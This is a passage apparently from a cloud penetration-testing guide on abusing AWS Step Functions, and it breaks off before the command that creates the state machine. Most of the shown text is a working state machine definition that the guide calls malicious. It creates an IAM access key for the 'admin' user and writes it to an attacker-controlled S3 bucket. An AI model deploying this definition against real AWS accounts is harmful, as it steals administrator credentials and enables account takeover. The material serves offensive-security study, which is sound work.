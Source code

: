 ```bash
aws states start-sync-execution --state-machine-arn <value> [--name <value>] [--input <value>] [--trace-header <value>]
```
{% endcode %}

The following examples show how to create an state machine that creates an access key for the **`admin`** user and exfiltrates this access key to an attacker-controlled S3 bucket, leveraging these permissions and a permissive role of the AWS environment. This permissive role should have any high-privileged policy associated with it (for example **`arn:aws:iam::aws:policy/AdministratorAccess`**) that allows the state machine to perform the **`iam:CreateAccessKey`** & **`s3:putObject`** actions.

* **stateMachineDefinition.json**:

```json
{
  "Comment": "Malicious state machine to create IAM access key and upload to S3",
  "StartAt": "CreateAccessKey",
  "States": {
    "CreateAccessKey": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
      "Parameters": {
        "UserName": "admin"
      },
      "ResultPath": "$.AccessKeyResult",
      "Next": "PrepareS3PutObject"
    },
    "PrepareS3PutObject": {
      "Type": "Pass",
      "Parameters": {
        "Body.$": "$.AccessKeyResult.AccessKey",
        "Bucket": "attacker-controlled-S3-bucket",
        "Key": "AccessKey.json"
      },
      "ResultPath": "$.S3PutObjectParams",
      "Next": "PutObject"
    },
    "PutObject": {
      "Type": "Task",
      "Resource": "arn:aws:states:::aws-sdk:s3:putObject",
      "Parameters": {
        "Body.$": "$.S3PutObjectParams.Body",
        "Bucket.$": "$.S3PutObjectParams.Bucket",
        "Key.$": "$.S3PutObjectParams.Key"
      },
      "End": true
    }
  }
}
```

* **Command** executed to **create the state machine**:
